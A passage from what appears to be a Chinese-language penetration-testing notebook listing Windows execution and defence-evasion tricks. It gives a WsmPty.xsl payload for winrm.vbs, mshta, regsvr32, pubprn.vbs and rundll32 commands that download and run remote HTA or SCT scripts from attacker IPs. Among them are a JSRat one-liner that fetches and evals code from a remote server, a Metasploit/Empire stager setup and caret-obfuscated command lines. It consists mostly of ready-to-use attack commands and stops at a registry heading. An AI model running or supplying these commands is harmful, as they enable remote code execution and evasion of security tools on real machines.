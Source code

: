 ![image](/assets/Pentest_Note/master/img/131.png)

	>mkdir winrm
	>copy c:\Windows\System32\cscript.exe winrm
	创建文件WsmPty.xsl复制payload进去
```xml
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
 <ms:script implements-prefix="user" language="JScript">
 <![CDATA[
 var r = new ActiveXObject("WScript.Shell").Run("cmd");
 ]]> </ms:script>
</stylesheet>

```
![image](/assets/Pentest_Note/master/img/132.png)
	
	执行
	>cscript.exe //nologo C:\Windows\System32\winrm.vbs get wmicimv2/Win32_Process?Handle=4 -format:pretty
![image](/assets/Pentest_Note/master/img/133.png)
 #### Mshta
	>use exploit/windows/misc/hta_server
	>set srvhost 192.168.0.107
	>mshta http://192.168.0.107:8080/RgNeCv.hta
![image](/assets/Pentest_Note/master/img/134.png)

	执行vb
		>mshta vbscript:CreateObject("Wscript.Shell").Run("calc.exe",0,true)(window.close)
	Js
		>mshta javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WScript.Shell").run("calc.exe",0,true);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im mshta.exe",0,true);}
	Jsrat
		>mshta javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://192.168.2.101:9998/connect",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im mshta.exe",0,true);}
 #### Regsvr32
	上线Empire
	>usestager windows/launcher_sct
	生成sct文件放入web目录
	>regsvr32 /s /n /u /i:http://192.168.0.107:8080/launcher.sct scrobj.dll
	>cscript /b C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs 127.0.0.1 script:http://192.168.0.107/test.sct
 #### Rundll32
 ##### 执行文件
	>rundll32 url.dll, OpenURL file://c:\windows\system32\calc.exe
	>rundll32 url.dll, OpenURLA file://c:\windows\system32\calc.exe
	>rundll32 url.dll,OpenURL file://^C^:^/^W^i^n^d^o^w^s^/^s^y^s^t^e^m^3^2^/^c^a^l^c^.^e^x^e
	>rundll32 url.dll,FileProtocolHandler file://^C^:^/^W^i^n^d^o^w^s^/^s^y^s^t^e^m^3^2^/^c^a^l^c^.^e^x^e
	>rundll32 url.dll, FileProtocolHandler calc.exe
 ##### 无弹窗执行
	>rundll32 javascript:"\..\mshtml,RunHTMLApplication ";new%20ActiveXObject("WScript.Shell").Run("C:/Windows/System32/mshta.exe http://192.168.0.107:8080/SU8Fd6kNRz0.hta",0,true);self.close();
 ##### 增删注册表